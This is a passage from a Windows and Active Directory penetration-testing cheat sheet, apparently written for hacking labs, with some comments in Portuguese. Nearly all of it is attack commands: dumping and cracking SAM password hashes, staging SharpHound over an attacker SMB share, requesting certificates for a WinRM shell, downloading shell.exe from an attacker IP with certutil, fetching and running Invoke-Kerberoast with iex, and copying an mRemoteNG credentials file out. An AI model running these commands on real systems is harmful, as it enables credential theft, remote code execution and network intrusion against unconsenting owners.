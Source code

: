 # 10. SAM SYSTEM - SamDump2

```bash
# Em windows, os hashes do sistema estã armazenado em C:\Windows\System32\config\SAM e estão protegidos por C:\Windows\System32\config\SYSTEM
samdump2 SYSTEM SAM
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=NT
```

# 11. Active Directory View Graph Neo4j - BloodHound

```bash
kali@kali: > 	 sudo neo4j console
kali@kali: > 	 bloodhound --no-sandbox
kali@kali: >     wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe
kali@kali: >     smbserver.py smbFolder $(pwd) -user javali -password javali -smb2support

target@10.10.10.10: >     net use \\10.10.16.183\smbFolder /u:javali javali
target@10.10.10.10: >     copy \\10.10.16.183\smbFolder\SharpHound.exe C:\Windows\Temp\SharpHound.exe
target@10.10.10.10: > 	  C:\Windows\Temp\SharpHound.exe -c all

kali@kali: > # Import XXXXXXXXXX_BloodHound.zip to the graph
```

# 12. Active directory - Microsoft Active Directory Certificate Services

```bash
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
rlwrap ruby winrm_shell.rb
```

# 13. File Transfere

## 13.1. Simple transfere

```powershell
powershell -c "Invoke-WebRequest -Uri 'https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe' -OutFile 'C:\Windows\Temp\winPEAS.exe'"  # Download a file from the web
certutil -urlcache -f http://10.11.30.195:8000/shell.exe shell.exe # Download a file from the web
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') # Download a file from the web
```

```bash
kali@kali: > scp L4mpje@10.10.10.134:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml confCons.xml
```
